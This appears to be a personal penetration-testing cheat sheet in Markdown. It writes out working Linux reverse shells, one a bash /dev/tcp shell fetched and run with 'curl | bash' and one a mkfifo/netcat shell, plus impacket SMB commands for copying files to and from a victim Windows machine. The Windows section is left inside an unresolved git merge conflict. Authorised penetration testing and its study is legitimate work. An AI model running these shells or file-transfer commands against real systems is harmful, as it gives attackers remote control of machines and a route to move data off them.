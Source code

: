 # Cheat Sheet
Here are some commands, reverse shells, and small scripts that I keep for pen-testing.

## Quick Links
[Linux Privilege Escalation](LinuxPrivEsc/README.md) <br>
[Windows Privilege Escalation](WindowsPrivEsc/README.md)

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Web Penetration Testing Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Reverse Shell
Alternate ways to gain shells.

### Linux
Using cURL
```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1' > rev.sh
python3 -m http.server 8080
nc -lnvp 1337
curl http://10.10.10.10:8080/rev.sh | bash
```
Probably the least-special-characters way (and with sh):
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1337 > /tmp/f
```
<<<<<<< HEAD

### Windows
Using impacket-smbserver we can copy files to and from the victim machine. Start the impacket-smbserver:
On Kali machine:
```bash
impacket-smbserver leet .
```
To copy files from Kali to Windows:
```cmd
> copy \\<Kali IP>\leet\file.ext file.ext
```

To copy files from Windows to Kali:
```cmd
> copy file.ext \\<Kali IP>\leet\file.ext
```
=======
>>>>>>> 0efa152bd1d9f18ec2a406fff9473fbdf9c8e604
